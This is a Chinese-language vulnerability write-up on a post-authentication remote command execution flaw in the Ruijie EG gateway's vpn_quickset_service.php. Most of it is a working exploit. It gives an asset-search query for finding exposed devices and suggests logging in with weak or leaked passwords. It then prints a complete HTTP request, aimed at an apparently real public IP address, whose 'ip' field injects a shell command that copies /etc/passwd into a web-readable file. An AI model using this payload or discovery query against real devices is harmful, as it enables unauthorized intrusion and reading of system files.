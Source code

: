 # 锐捷EG易网关vpn_quickset_service远程代码执行漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**

<font style="color:rgb(38, 38, 38);">锐捷 EG易网关cli存在后台远程命令执行漏洞。</font>

<font style="color:rgb(38, 38, 38);"> </font>**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

`锐捷EG易网关`  
**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**

`app="Ruijie-EG易网关"`  
<font style="color:rgb(38, 38, 38);">●登录页面</font>  


![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/u1f031-bFfjq_s9P/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-921195.webp)

  
**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**  
1、通过弱口令或账号密码泄露漏洞登录后台获取cookie  


![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/u1f031-bFfjq_s9P/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-254245.webp)

```plain
POST /itbox_pi/vpn_quickset_service.php?a=set_vpn HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=bnrul7jabde55u5moo2a4q57a0; helpKey=home_sys;user=admin
X-Requested-With: XMLHttpRequest
Host: 117.40.253.197:4430
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 27

ip=|cat /etc/passwd >1.txt|
```

![1714062843270-2d58deca-03fd-4c15-9993-9bfa44ecc958.png](./img/u1f031-bFfjq_s9P/1714062843270-2d58deca-03fd-4c15-9993-9bfa44ecc958-431455.png)

写入文件地址

```plain
/itbox_pi/1.txt
```

![1714062857083-b23e439d-73d8-4c6c-a7e5-533d044e9763.png](./img/u1f031-bFfjq_s9P/1714062857083-b23e439d-73d8-4c6c-a7e5-533d044e9763-938105.png)



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/xaqqf2rq9u5lwp76>